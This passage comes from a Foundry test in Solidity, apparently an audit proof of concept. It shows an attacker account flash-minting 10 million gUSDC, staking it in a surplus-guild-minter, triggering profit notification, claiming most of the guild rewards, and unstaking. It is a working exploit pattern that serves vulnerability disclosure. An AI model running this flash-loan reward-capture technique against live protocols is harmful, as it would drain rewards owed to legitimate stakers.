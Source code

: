 ```solidity
        vm.startPrank(STAKER2);
        gUSDC.approve(address(sgmUSDC), 800e18);
        sgmUSDC.stake(termUSDC, 800e18);
        vm.stopPrank();

        vm.startPrank(STAKER3);
        gUSDC.approve(address(sgmUSDC), 600e18);
        sgmUSDC.stake(termUSDC, 600e18);
        vm.stopPrank();

        // Alice borrows 10 gUSDC. There's no borrow logic involved due to MockLendingTerm, but it's not necessary for the test.
        uint borrowTime = block.timestamp;
        gUSDC.mint(ALICE, 100e18);

        // NOTE: Alice needs to transfer the borrowed 100e18 gUSDC to EXPLOITER for repayment.

        
        console.log("-------------------------------AFTER ATTACK-------------------------------");
        console.log("EXPLOITER Credit Balance before flashloan:                              ", gUSDC.balanceOf(EXPLOITER));
        // EXPLOITER gets a flashloan.
        gUSDC.mint(EXPLOITER, 10_000_000e18);
        console.log("EXPLOITER Credit Balance after flashloan:      ", gUSDC.balanceOf(EXPLOITER));
        vm.startPrank(EXPLOITER);
        gUSDC.approve(address(sgmUSDC), 10_000_000e18);
        sgmUSDC.stake(termUSDC, 10_000_000e18);
        console.log("EXPLOITER Credit balance after stake:                                   ", gUSDC.balanceOf(EXPLOITER));
        vm.stopPrank();

    	vm.warp(block.timestamp + 150 days);
        uint256 interest = _computeAliceLoanInterest(borrowTime, 100e18);
        vm.prank(governor);
        profitManagerUSDC.setProfitSharingConfig(
            0.05e18, // surplusBufferSplit
            0.9e18, // creditSplit
            0.05e18, // guildSplit
            0, // otherSplit
            address(0) // otherRecipient
        );

        profitManagerUSDC.notifyPnL(termUSDC, int256(interest));
        
        sgmUSDC.getRewards(EXPLOITER, termUSDC);
        console.log("EXPLOITER (instant) Credit reward:                     ", gUSDC.balanceOf(address(EXPLOITER)));
        console.log("EXPLOITER (instant) Guild reward:                     ", guild.balanceOf(address(EXPLOITER)));
        //EXPLOITER's profit is based on the guild split since he own almost all of the GUILD totalSupply.

        vm.startPrank(EXPLOITER);
        sgmUSDC.unstake(termUSDC, 10_000_000e18);
        vm.stopPrank();

        console.log("EXPLOITER credit balance after unstake:        ", gUSDC.balanceOf(EXPLOITER));

        // NOTE: EXPLOITER repays the flash loan here.

        sgmUSDC.getRewards(STAKER1, termUSDC);
        sgmUSDC.getRewards(STAKER2, termUSDC);
        sgmUSDC.getRewards(STAKER3, termUSDC);
```
